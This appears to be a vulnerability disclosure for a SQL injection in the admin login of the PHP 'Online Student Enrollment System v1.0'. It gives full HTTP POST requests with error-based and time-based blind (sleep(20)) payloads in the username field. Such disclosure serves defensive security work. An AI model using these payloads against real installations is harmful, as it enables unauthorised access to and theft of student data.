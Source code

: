 # Online Student Enrollment System v1.0 by donbermoy has SQL injection

BUG_Author:XueYing Li

vendors:https://www.sourcecodester.com/php/14281/online-student-enrollment-system-using-phpmysqli.html

Vulnerability File: /student_enrollment/admin/login.php

Parameter "username" (POST), exists SQL injection vulnerability

Payload1:username=1%27&password=2&login=

```
POST /student_enrollment/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/student_enrollment/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bi7132qp84261ga80u4umo124d
Connection: close

username=1%27&password=2&login=
```

An error page

![image](https://github.com/snowingllll/pic/blob/main/error.png)

Payload2:username=1%27%27&password=2&login=

```
POST /student_enrollment/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 34
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/student_enrollment/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bi7132qp84261ga80u4umo124d
Connection: close

username=1%27%27&password=2&login=
```

An right page

![image](https://github.com/snowingllll/pic/blob/main/right.png)

Payload3:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&login=

```
POST /student_enrollment/admin/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=argh74f67q09vjd4k7088q9sji
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/student_enrollment/admin/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 69

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&login=
```

sleep(20) The server response time is 20 seconds

![image](https://github.com/snowingllll/pic/blob/main/twenty.png)
